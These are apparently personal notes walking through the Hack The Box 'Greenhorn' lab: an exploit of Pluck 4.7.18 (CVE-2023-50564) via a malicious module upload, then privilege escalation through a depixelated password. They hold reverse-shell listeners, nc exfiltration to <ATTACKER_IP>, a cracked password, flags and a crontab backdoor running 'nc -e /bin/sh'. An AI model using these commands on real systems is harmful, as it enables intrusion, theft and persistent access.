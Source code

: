 Port 80

![[Pasted image 20240918065427.png]]

![[Pasted image 20240918070211.png]]

![[Pasted image 20240918070330.png]]

pluck 4.7.18

`You have exceeded the number of login attempts. Please wait 5 minutes before logging in again.`

Port 3000

![[Pasted image 20240918065949.png]]

I make a test user account and take a look at the file poasted by admin on the greenhorn github page

![[Pasted image 20240918071124.png]]

This tells me the amount of tries i have so maybe i can modify the request with an `X-Forwarded_For` header to spoof my ip. Doesn't seem to work.

![[Pasted image 20240918072151.png]]

![[Pasted image 20240918072907.png]]

`d5443aef1b64544f3685bf112f6c405218c573c7279a831b1fe9612e3a4d770486743c5580556c0d838b51749de15530f87fb793afdcc689b6b39024d7790163`

![[Pasted image 20240918073200.png]]

![[Pasted image 20240918073418.png]]

iloveyou1

---

This logs me into pluck.

https://github.com/Rai2en/CVE-2023-50564_Pluck-v4.7.18_PoC

1. Clone this repository:
```php
git clone https://github.com/Rai2en/CVE-2023-50564_Pluck-v4.7.18_PoC.git
cd CVE-2023-50564_Pluck-v4.7.18_PoC
```

2. Replace with the target domain name or IP address in the PoC script.
3. Create a `payload.zip` file containing `shell.php`. I recommand [pentestmonkey](https://github.com/pentestmonkey/php-reverse-shell)PHP reverse shell and replace `<your_ip>` and `<port>` fields with your IP and listening port.
4. Run the PoC script:

```php
python exploit.py
```

5. You will be prompted to enter the path to the ZIP file:

```php
ZIP file path: ./path/to/payload.zip
```

Output example:

- If the login and upload are successful:
```php
Login account
ZIP file download.
<output of the executed shell.php>
```

- If a login error occurs:

```php
Login problem. response code: <code>
```

- If an upload error occurs:

```php
ZIP file download error. Response code: <code>
```

_Note_
Ensure that the `shell.php` file contains the correct reverse shell and your listener is waiting for the connection on the specified port.

---

Zip

```php
zip rev.zip revshell.php 
```

Install modules

Options -> manage modules -> install a module

![[Pasted image 20240918083531.png]]

Rev shell

```php
rlwrap nc -nlvp 8443
```

- _Port 8443 is an alternate port number that represents HTTPS or the Hypertext Transfer Protocol over a secure connection as given by SSL/TLS. That is to say, it is the alternative port number for the widely used default HTTPS port number 443 used in accessing web resources securely._

Pluck `4.7.18` can be exploited for its RCE vulnerability. We can upload/install a module for the CMS with a ZIP file, which contains malicious PHP script. Then we can access certain path to execute the PHP script.

First we create a ZIP file which has our reverse shell PHP script inside:

```php
zip openme.zip shell.php
```

Navigate to file to get a rev shell

```php
http://greenhorn.htb/data/modules/openme/shell.php
```

Stabilise shell

```php
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

```php
export TERM=xterm
```

- CTRL+Z

```php
stty raw -echo; fg
```


Users:
1. git
2. junior

User: junior
Pass: iloveyou1

/home/junior
flag1: b3b7f3e7ca451119b248a0cbf272a7eb

Start transfer server

```php
python3 -m http.server 80
```

```php
wget 10.10.14.14/<FILE>
```

Linpeas

`OS: Linux version 5.15.0-113-generic (buildd@lcy02-amd64-072) (gcc (Ubuntu 11.4.0-1ubuntu1~22.04) 11.4.0, GNU ld (GNU Binutils for Ubuntu) 2.38) #123-Ubuntu SMP Mon Jun 10 08:16:17 UTC 2024`

writable executable: /usr/local/bin/gitea

Internal Ports
- 22
- 53
- 80
- 3306

/etc/mysql/mariadb.cnf

```php
PermitRootLogin yes
UsePAM yes
    PasswordAuthentication no

══╣ Possible private SSH keys were found!
/etc/ImageMagick-6/mime.xml
```

/usr/share/openssh/sshd_config 

/tmp/tmux-1000

/home/junior/Using OpenVAS.pdf

transfer file to my machine for inspection with a pdf viewer

Me

```php
nc -lvp 4444 > FILE
```

```php
nc -lvp 4444 > 'Using OpenVAS.pdf'
```

Target
```php
nc <Target> 4444 -w 3 < FILE
```

```php
nc <ATTACKER_IP> 4444 -w 3 < 'Using OpenVAS.pdf'
```

![[Pasted image 20240919071607.png]]


They have provided a password inside the pdf, which is just a blurred image which we cannot see.

For a blurred image, we can try to **reverse the process of pixelation** to reveal the original text or content.

I can use a tool called **Depix**. It essentially uses a brute-force approach combined with intelligent matching algorithms to reverse the pixelation.

Extract the image from the pdf using PDF24 Tools.

https://github.com/spipm/Depix

Run depix on the extracted password png

```php
python3 depix.py \
    -p /home/kali/Documents/htb/greenhorn/0.png \
    -s images/searchimages/debruinseq_notepad_Windows10_closeAndSpaced.png \
    -o /home/kali/Documents/htb/greenhorn/output.png

```

![[Pasted image 20240919074358.png]]

![[Pasted image 20240919074437.png]]

User: root
Pass: sidefromsidetheothersidesidefromsidetheotherside

root flag:
68010f824ba1d50688172979275890e7

Extra:

Persistence via crontab:

```php
echo '* * * * * nc <IP> <PORT> -e /bin/sh' >> /etc/crontab
```

---

Exploit crafting details:

`POST /admin.php?action=installmodule`

`Content-Disposition: form-data; name="sendfile"; filename="payload.zip"`
`Content-Type: application/zip`

`Cookie: PHPSESSID=ns152q98g9afg7otftf1nn5rvk; i_like_gitea=b865f5a34bba6134; lang=en-US; _csrf=JMaz581fnUIxGHlpppXcArSmTMQ6MTcyNjY0MDM4Nzk3MDc5MDk2Mw`

`http://<url>/data/modules/payload/shell.php`